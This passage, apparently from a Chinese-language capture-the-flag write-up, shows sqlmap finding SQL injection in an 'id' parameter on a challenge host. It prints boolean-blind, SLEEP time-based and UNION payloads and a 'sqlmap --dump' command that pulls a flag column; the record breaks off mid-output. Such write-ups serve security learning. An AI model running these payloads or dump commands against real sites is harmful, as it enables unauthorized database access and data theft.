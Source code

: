 ```bash
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5975=5975 AND 'OwTY'='OwTY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9341 FROM (SELECT(SLEEP(5)))ejmq) AND 'mlWM'='mlWM

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5185' UNION ALL SELECT NULL,NULL,CONCAT(0x71766b7171,0x514f4844786a687267776b504557574e487759506c79594248626342486779595a766c64674a7863,0x71717a7071)-- -
---
[09:23:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:23:58] [INFO] fetching columns for table 'fl4g' in database 'note'
Database: note
Table: fl4g
[1 column]
+---------+-------------+
| Column  | Type        |
+---------+-------------+
| fllllag | varchar(40) |
+---------+-------------+

[09:23:59] [INFO] fetched data logged to text files under '/home/tyd/.local/share/sqlmap/output/1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run'                                                 

[*] ending @ 09:23:59 /2022-08-17/
```

查询到表中有个`fllllag`的字段后，使用`-D note -T fl4g -C fllllag --dump`查询该字段的数据信息：

```bash
┌──(tyd㉿kali-linux)-[~]
└─$ sqlmap -u "https://1254-b717b966-a0b5-43fe-b410-f15797bb4381.do-not-trust.hacking.run/index.php?id=1" -D note -T fl4g -C fllllag --dump
        ___
       __H__                                                                                              
 ___ ___[(]_____ ___ ___  {1.6.7#stable}                                                                  
|_ -| . [,]     | .'| . |                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:26:33 /2022-08-17/

[09:26:33] [INFO] resuming back-end DBMS 'mysql' 
[09:26:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
```